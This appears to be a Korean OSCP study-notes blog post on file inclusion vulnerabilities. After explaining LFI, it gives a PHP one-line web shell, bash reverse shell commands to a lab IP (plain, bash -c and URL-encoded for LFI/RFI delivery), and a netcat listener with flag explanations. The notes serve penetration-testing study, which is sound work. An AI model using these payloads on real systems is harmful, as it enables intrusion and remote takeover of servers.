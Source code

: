 ```yaml
---
layout: post
title: 9.2. File Inclusion Vulnerabilities
subtitle: 파일 인클루전
categories: oscp
tags:
  - oscp
---
```

## 9.2.1. Local File Inclusion (LFI)

LFI취약점은 언뜻 보면 디랙토리 트래버셜과 비슷해보이지만 차이가 있다.
1. 디렉토리 트래버셜 : 웹 서버의 웹 루트 외부에 있는 파일 내용을 읽는 데 사용됨.
2. LFI : 애플리케이션의 실행 중인 코드에 파일을 포함 시킴.
   이로 인해 파일을 실행하거나 비실행 파일의 내용을 표시할 수 있음.
결론 : 디렉토리 트래버셜은 정보를 수집한다면, LFI는 RCE의 역할을 수행한다고 볼 수 있다.

#### 관련 코드 및 명령어
1. PHP 한줄 웹쉘
   ```php
<?php echo system($_GET['cmd']); ?>
```
2. 리버스쉘
 **1. `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`**

- **기능**:
    
    - Bash를 인터랙티브 모드(`-i`)로 실행하고, 표준 입력, 표준 출력, 표준 에러를 리디렉션하여 원격 서버(192.168.119.3)와 TCP 연결을 생성.
    - 포트 4444에서 연결이 이루어지면 공격자는 원격 시스템에 명령을 실행할 수 있음.
- **주요 특징**:
    
    - **직접 실행**: Bash 환경에서 바로 실행 가능한 간단한 명령.
    - **제약 사항**:
        - 시스템이 기본적으로 **Bash 셸**을 지원해야 함.
        - 명령이 Bourne Shell(`sh`)로 실행되면 호환되지 않음.

---

 **2. `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`**

- **기능**:
    
    - Bash를 실행하면서(`bash -c`) 추가 명령(`bash -i ...`)을 **인수로 전달**.
    - 전달된 명령은 Bash 내부에서 실행되므로, Bash 명령이 직접 실행되지 못하는 경우에도 실행 가능.
- **주요 특징**:
    
    - **더 높은 호환성**:
        - Bourne Shell(`sh`) 환경에서도 Bash 명령을 실행할 수 있도록 함.
    - **실행 방식**:
        - Bash를 사용해 명령 문자열 전체를 실행하도록 명시.
- **사용 이유**:
    
    - 기본 셸이 Bash가 아닌 경우에도 명령이 실행되도록 보장.

---

**3. `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22`**

- **기능**:
    
    - `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` 명령을 **URL 인코딩**한 버전.
    - URL 인코딩:
        - 공백(`%20`) 및 특수 문자(`>`, `&`)를 인코딩해 웹 브라우저나 특정 URL 기반 시스템에서 사용할 수 있도록 함.
- **주요 특징**:
    
    - **웹 환경**에서 명령 전달:
        - 공격자가 웹 기반 LFI(Local File Inclusion) 또는 RFI(Remote File Inclusion) 취약점을 통해 악성 명령어를 전달할 때 사용.
    - **용도**:
        - 웹 애플리케이션에서 공백 및 특수 문자가 제대로 처리되지 않을 때.

---

### **비교 요약**

|명령어|실행 방식|용도 및 특징|
|---|---|---|
|`bash -i >& /dev/tcp/...`|Bash 환경에서 직접 실행|간단하고 바로 실행 가능, 기본 셸이 Bash일 경우.|
|`bash -c "bash -i ..."`|명령을 Bash로 전달|더 높은 호환성 제공, 기본 셸이 sh일 경우에도 실행 가능.|
|`bash%20-c%20%22bash...`|URL 인코딩된 명령|웹 기반 공격 시 사용, LFI/RFI 취약점 활용.|
   ```shell
   bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
   bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
   bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
   
```
3. Netcat을 이용해 리버스쉘 대기
   - **`nc`**:
    
    - Netcat 실행.
- **`-n`**:
    
    - DNS 이름 확인 없이 **순수 숫자 IP**를 사용.
    - 더 빠르고 간단하게 연결을 처리.
- **`-v`**:
    
    - **상세 모드**(verbose mode).
    - 작업 내용을 자세히 출력(예: 연결 상태, 수신된 데이터).
- **`-l`**:
    
    - **수신 대기(listen)** 모드.
    - Netcat이 클라이언트의 연결 요청을 기다림.
- **`-p 4444`**:
    
    - 특정 **포트 번호(4444)**를 지정.
    - 클라이언트가 이 포트로 연결을 시도.
   ```shell
   nc -nvlp 4444
```
